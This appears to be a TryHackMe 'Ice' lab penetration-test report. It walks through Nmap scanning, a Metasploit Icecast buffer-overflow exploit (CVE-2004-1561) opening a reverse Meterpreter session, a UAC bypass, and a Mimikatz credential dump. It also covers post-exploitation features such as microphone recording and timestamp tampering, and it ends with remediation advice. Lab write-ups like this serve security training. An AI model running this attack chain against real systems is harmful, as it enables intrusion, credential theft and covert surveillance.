




# Project: Ice Penetration Test (TryHackMe)

**Date:** December 2025

**Target:** 10.66.159.154 (Dark-PC)

**Tools Used:** Nmap, Metasploit, Meterpreter, Mimikatz (Kiwi)

**Vulnerability Explored:** Icecast Header Overwrite (CVE-2004-1561) \& UAC Bypass

## 1\. Executive Summary

**Objective:** Conduct a black-box penetration test on the target host "Ice" to identify vulnerabilities, gain initial access via a media server exploit, and escalate privileges to SYSTEM.

**Result:** The assessment identified a critical **Buffer Overflow** vulnerability in the Icecast streaming server, allowing for Remote Code Execution (RCE). Furthermore, a **User Account Control (UAC) Bypass** vulnerability allowed for privilege escalation to `NT AUTHORITY\\SYSTEM`, resulting in full compromise and credential theft.

---

## 2\. Technical Findings \& Walkthrough

### Step 1: Reconnaissance \& Enumeration

**Objective:** Identify open ports, services, and the operating system.

**Methodology:**
I performed a SYN scan using **Nmap** to identify active services on the target.

```bash
sudo nmap -sS 10.66.159.154
sudo nmap -sV 10.66.159.154
```

**Findings:**

* **Open Ports:**

  * `135`, `139`, `445`: Microsoft RPC \& SMB (NetBIOS).
  * `3389`: Microsoft Remote Desktop (RDP).
  * `8000`: Icecast streaming media server.

* **System Info:**

  * **Hostname:** DARK-PC.
  * **OS:** Windows 7 / Server 2008 R2.



* **Vulnerability Analysis:** Research indicated that the version of Icecast running on port 8000 is vulnerable to a Header Overwrite Buffer Overflow (CVE-2004-1561) with a CVSS score of 7.5.

### Step 2: Initial Compromise (Icecast Exploit)

* **Vulnerability:** Icecast Header Overwrite
* **CVE:** CVE-2004-1561
* **Severity:** High

**Methodology:** I used the Metasploit Framework to exploit the vulnerability.

**Exploitation Steps:**

1. **Module Selection:**

&nbsp;   ```bash
    use exploit/windows/http/icecast_header
    ```

2. **Configuration:**

   * Set `RHOSTS` to `10.66.159.154`.
   * Set `LHOST` to my attacker IP (`192.168.151.228`).

   !\[Icecast Exploit Setup](img/metasploit\_icecast\_exploit.png)

3. **Execution:** The exploit successfully triggered the buffer overflow and opened a Meterpreter session running as the user `Dark`.

   

   ### Step 3: Privilege Escalation (UAC Bypass)

* **Vulnerability:** User Account Control (UAC) Bypass via Event Viewer
* **Severity:** High

  **Methodology:** Although I had a shell, I was running as a standard user. I utilized the Local Exploit Suggester module to find an escalation path.

  ```bash
  run post/multi/recon/local_exploit_suggester
  ```

  **Findings:** The system was vulnerable to `exploit/windows/local/bypassuac_eventvwr`.

  !\[UAC Bypass Suggestion](img/local\_exploit\_suggester.png)

  **Exploitation Steps:**

1. **Session Setup:** Backgrounded the initial session.
2. **Execution:**

   &nbsp;   ```bash
       use exploit/windows/local/bypassuac_eventvwr
       set SESSION 1
       run
       ```

* **Result:** The exploit bypassed UAC and returned a new high-integrity Meterpreter session.
* **Verification:** Running `getprivs` confirmed I had `SeTakeOwnershipPrivilege`, indicating administrative rights.

  

  ### Step 4: Credential Looting (Mimikatz)

  **Objective:** Extract plaintext passwords from memory.

  **Methodology:** To dump credentials, I needed to interact with the LSASS process. This required migrating to a stable x64 system process.

  **Steps Taken:**

1. **Migration:** I identified the Printer Spooler service (`spoolsv.exe`, PID 1368) running as `NT AUTHORITY\\SYSTEM` and migrated to it.

   &nbsp;   ```bash
       migrate -N spoolsv.exe
       ```

   * **Result:** User changed to `NT AUTHORITY\\SYSTEM`.

2. **Mimikatz (Kiwi):** I loaded the Kiwi extension to dump credentials.

   &nbsp;   ```bash
       load kiwi
       creds_all
       ```

   **Loot:**

* **Username:** `Dark`
* **Password:** `Password01!`

  

  ### Step 5: Post-Exploitation

  **Objective:** Maintain persistence and gather intelligence.

  **Findings:**

* **Hash Dumping:** Verified ability to dump the SAM database using `hashdump`.
* **Remote Desktop:** With the credentials `Dark` / `Password01!`, RDP access is now possible via port `3389`.

  

* **Capabilities:** Verified access to:

  * `screenshare`: View the user's desktop.
  * `record_mic`: Record audio.
  * `timestomp`: Manipulate file timestamps to hide activity.

  ## 3\. Remediation \& Recommendations

1. **Patch Icecast (Critical)**
   The version of Icecast running is severely outdated (circa 2004).

   * **Action:** Update Icecast to the latest stable version immediately or decommission the service if not needed.

2. **Patch Windows (High)**
   The system is running Windows 7, which is End-of-Life (EOL), and is vulnerable to multiple local privilege escalation exploits.

   * **Action:** Upgrade the operating system to a supported version (Windows 10/11 or Server 2019/2022).

3. **Enable Firewall \& Defender (High)**
   The Nmap scan showed all ports accessible, and the ease of exploitation suggests security controls were disabled.

   * **Action:** Enable Windows Firewall and Windows Defender (or equivalent EDR solution).

4. **Stronger Password Policy (Medium)**
   The password `Password01!` meets complexity requirements but is a common dictionary password.

   * **Action:** Enforce a stronger password policy preventing common patterns.

   ---

   *Disclaimer: This project was performed on the TryHackMe "Ice" room for educational purposes.*

